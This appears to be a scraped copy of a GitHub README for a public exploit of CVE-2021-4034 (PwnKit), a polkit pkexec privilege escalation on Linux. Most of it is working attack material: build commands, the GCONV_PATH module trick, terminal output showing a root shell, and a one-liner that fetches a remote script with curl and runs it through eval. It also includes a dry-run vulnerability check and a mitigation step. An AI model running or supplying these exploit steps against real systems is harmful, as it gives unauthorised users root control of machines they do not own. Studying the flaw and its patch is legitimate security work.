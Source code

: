 # CVE-2021-4034

CVE-2021-4034 1day

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/berdav](https://github.com/berdav) |
| Url      | [https://github.com/berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034)                                               |
| Stars    | 1829                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-4034
One day for the polkit privilege escalation exploit

Just execute `make`, `./cve-2021-4034` and enjoy your root shell.

The original advisory by the real authors is [here](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)

## PoC
If the exploit is working you'll get a root shell immediately:

```bash
vagrant@ubuntu-impish:~/CVE-2021-4034$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp /usr/bin/true GCONV_PATH=./pwnkit.so:.
vagrant@ubuntu-impish:~/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
# exit
```

Updating polkit on most systems will patch the exploit, therefore you'll get the usage and the program will exit:
```bash
vagrant@ubuntu-impish:~/CVE-2021-4034$ ./cve-2021-4034
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
vagrant@ubuntu-impish:~/CVE-2021-4034$
```

## Dry Run
To not execute a shell but just test if the system is vulnerable compile the `dry-run` target.

If the program exit printing "root" it means that your system is vulnerable to the exploit.
```bash
vagrant@ubuntu-impish:~/CVE-2021-4034$ make dry-run
...
vagrant@ubuntu-impish:~/CVE-2021-4034$ dry-run/dry-run-cve-2021-4034
root
vagrant@ubuntu-impish:~/CVE-2021-4034$ echo $?
1
```

If your system is not vulnerable it prints an error and exit.
```bash
vagrant@ubuntu-impish:~/CVE-2021-4034$ dry-run/dry-run-cve-2021-4034
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.
vagrant@ubuntu-impish:~/CVE-2021-4034$ echo $?
0
```

## About Polkit pkexec for Linux

Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged processes. It is also possible to use polkit to execute commands with elevated privileges using the command pkexec followed by the command intended to be executed (with root permission).

# One-liner commands

You can easily exploit the system using a single script, downloadable and executable with this command:

```sh
eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
```

```bash
vagrant@ubuntu-impish:~/CVE-2021-4034$ whoami
vagrant
vagrant@ubuntu-impish:~/CVE-2021-4034$ eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
# whoami
root
```

# Mitigation

If no patches are available for your operating system, you can remove the SUID-bit from pkexec as a temporary mitigation.
```bash
# chmod 0755 /usr/bin/pkexec
```

The exploit then will fail complaining that `pkexec` must have the
setuid bit enabled.
```bash
vagrant@ubuntu-impish:/vagrant/CVE-2021-4034$ sudo chmod 0755 /usr/bin/pkexec
vagrant@ubuntu-impish:/vagrant/CVE-2021-4034$ ./cve-2021-4034
GLib: Cannot convert message: Could not open converter from “UTF-8” to “PWNKIT”
pkexec must be setuid root
```




## Get the content

```
git clone https://github.com/berdav/CVE-2021-4034
cd CVE-2021-4034
```

{% embed url="https://github.com/berdav/CVE-2021-4034" %}

<figure><img src="https://avatars.githubusercontent.com/u/1332095?v=4" alt=""><figcaption><p>berdav</p></figcaption></figure>
